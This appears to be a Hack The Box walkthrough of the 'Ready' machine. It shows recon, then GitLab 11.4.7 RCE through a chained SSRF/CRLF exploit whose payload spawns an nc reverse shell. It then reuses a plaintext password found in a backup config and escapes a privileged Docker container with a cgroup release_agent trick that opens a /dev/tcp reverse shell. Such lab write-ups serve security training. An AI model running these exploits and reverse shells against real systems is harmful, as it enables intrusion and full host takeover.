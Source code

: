 ```yaml
---
layout: post
title: Ready - Walkthrough
---
```


Overall, a nice box which reminds me of the 'Laboratory' box. I spent more time trying to understand how the exploit to root works than executing it. As usual, I learned something new, which is exactly what I'm looking for on hackthebox. 

## Recon
I start with a quick Nmap followed by a full scan with the default script (-C) and the -V tag to get more info about the services.

{% highlight sh %}
sudo nmap ready && sudo nmap -sCV -p- ready -oN nmap
{% endhighlight %}

{% highlight text %}
\# Nmap 7.91 scan initiated Mon Dec 14 10:25:22 2020 as: nmap -sCV -p- -oN nmap ready
Nmap scan report for ready (10.10.10.220)
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
\# Nmap done at Mon Dec 14 10:39:47 2020 -- 1 IP address (1 host up) scanned in 865.64 seconds
{% endhighlight %}

As you can see, we only have 2 ports open `22` which `SSH` and the port `5580`, which apparently (`http-title: Sign in \xC2\xB7 GitLab`) could be `Gitlab`.

The first thing I do here is visiting browsing to `http://ready:5080` and I got directly redirected to the <strong><cite>Gitlab</cite></strong> registration page. 

![0102847c9448c67f04dd20bc657bb1f4.png](../_resources/5a93ab997260411cad2281b8f90e288c.png)

I just created an account and logged in !

## Foothold / User

When I see <strong><cite>Gitlab</cite></strong> or any other tool like that, the first thing I want is to get the actual version. So, I browse to the `help` section and got the version `11.4.7`.

The actual version of <strong><cite>Gitlab</cite></strong> is the [13.6](https://gitlab.com/gitlab-org/gitlab/-/releases), so the version on the target is completely outdated ! In fact, the `11.4.7` version has been released in [Nov 2018](https://about.gitlab.com/releases/2018/11/21/gitlab-11-4-7-released/). Hence I want to check for any `CVE` that I can find on 
I <strong><cite>Google</cite></strong>.

I searched for `gitlab 11.4.7 rce` and quickly discovered that [exploit](https://www.exploit-db.com/exploits/49257).

That script exploits these vulnerabilities [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571) and [CVE-2018-19585](https://nvd.nist.gov/vuln/detail/CVE-2018-19585) by chaining them to gain access to the box. 

Basicaly, it uses a `CRLF` vuln to force the server to make request that it's not suppose to make, which is a `SSRF` attack.

If you don't know how these attacks work, I recommend to check out these links to have a better understanding of it. 

https://portswigger.net/web-security/ssrf
https://owasp.org/www-community/vulnerabilities/CRLF_Injection

Back to the exploit, I just modified these lines:

> username='rock'
authenticity_token='JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A=='
cookie = '_gitlab_session=663f6a0f34be6ffa9aa316101b69d437; sidebar_collapsed=false'
localport='4444'
localip='10.10.14.10'
>
>url = "http://10.10.10.220:5080"
proxies = { "http": "http://127.0.0.1:8080" }

Don't forget to add the proxy param if you want to see the request inside `ZAP` or `Burp`. 

> r=session.post(url+'/projects',data=newpayload,headers=headers,allow_redirects=False,proxies=proxies)

I got the authenticity_token and the cookie by creating a new project manualy and then examining the request with `ZAP`.
It looked like that:

![d5e1b822bf7b72345748e1b53378ace7.png](../_resources/c8e6dbe5713346b4804ef57d0f70d1eb.png)

Then I ran the script:

{% highlight sh %}
python ./exploit.py
{% endhighlight %}

{% highlight text %}
 
Debug => Token: JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A==
Debug => Cookie: _gitlab_session=663f6a0f34be6ffa9aa316101b69d437; sidebar_collapsed=false
Debug => Namespace ID: 3
Debug => Payload encoded: utf8=%E2%9C%93&authenticity_token=JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A%3D%3D&project%5Bci_cd_only%5D=false&project%5Bname%5D=LckpZKdG&project%5Bnamespace_id%5D=3&project%5Bpath%5D=LckpZKdG&project%5Bdescription%5D=LckpZKdG&project%5Bvisibility_level%5D=20&=project%5Binitialize_with_readme%5D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2F%0A+multi%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%27%7Cnc+10.10.14.10+4444+-e+%2Fbin%2Fsh%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A+exec%0A+exec%0A+exec%0A%2Frock%2FLckpZKdG.git
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.220.
Ncat: Connection from 10.10.10.220:43496.
id
uid=998(git) gid=998(git) groups=998(git)
{% endhighlight %}

And boom ! We have a shell. 

The user flag is there `/home/dude/user.txt`.

## Root

As usual, I made a bit of manual enumeration on the box and found an interersting backup folder here `/opt/backup`.

> 
-rw-r--r-- 1 root root   872 Dec  7 09:25 docker-compose.yml
-rw-r--r-- 1 root root 15092 Dec  1 16:23 gitlab-secrets.json
-rw-r--r-- 1 root root 79639 Dec  1 19:20 gitlab.rb

We have a lot of valuable informations here but the most interesting is inside the `gitlab.rb` file. You can `cat` it but you'll have a lot of useless lines. Hence, if you remove every comments from the output, you'll get a nice password ! 

{% highlight sh %}
cat /opt/backup/gitlab.rb | grep -v '^#' | grep -v '^$'
{% endhighlight %}

{% highlight text %}
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
{% endhighlight %}

Then I switched to root with the new password.

From there, I didn't know where to put my next step, so I uploaded `linpeas` and ran it on the target. 

![e2d3f602a92aa984836b11b2daea5576.png](../_resources/e1c884de695f4e8a8353bdf93ce98fe2.png)

Linpeas confirmed that we are inside a container so I made a quick research on <strong><cite>Google</cite></strong> and I've found a very interesting [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container) about escaping containers.

> The --privileged flag introduces significant security concerns, and the exploit relies on launching a docker container with it enabled. When using this flag, containers have full access to all devices and lack restrictions from seccomp, AppArmor, and Linux capabilities.
In fact, --privileged provides far more permissions than needed to escape a docker container via this method.

There are a few requirements for the procedure to work: 

> We must be running as root inside the container
The container must be run with the SYS_ADMIN Linux capability
The container must lack an AppArmor profile, or otherwise allow the mount syscall
The cgroup v1 virtual filesystem must be mounted read-write inside the container

The only thing that I'm sure of is that we are `root` inside the docker. Hence I'm gonna give a try and  we'll see what happens.

The [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container) is well explained and I really encourage you to read it carrefully. 

Here are the steps I did on the box: 

>To trigger this exploit we need a cgroup where we can create a release_agent file and trigger release_agent invocation by killing all processes in the cgroup. The easiest way to accomplish that is to mount a cgroup controller and create a child cgroup.

{% highlight sh %}
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
{% endhighlight %}

>Next, we enable cgroup notifications on release of the “x” cgroup by writing a 1 to its notify_on_release file. We also set the RDMA cgroup release agent to execute a /cmd script — which we will later create in the container — by writing the /cmd script path on the host to the release_agent file. To do it, we’ll grab the container’s path on the host from the /etc/mtab file.

{% highlight sh %}v
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
{% endhighlight %}

> Now, we create the /cmd script 

{% highlight sh %}
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.2/4545 0>&1" >> /cmd
chmod a+x /cmd
{% endhighlight %}

> Finally, we can execute the attack by spawning a process that immediately ends inside the “x” child cgroup.

{% highlight sh %}
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
{% endhighlight %}

And we got a shell as `root` on the host machine. 

{% highlight text %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

Rooted ;)
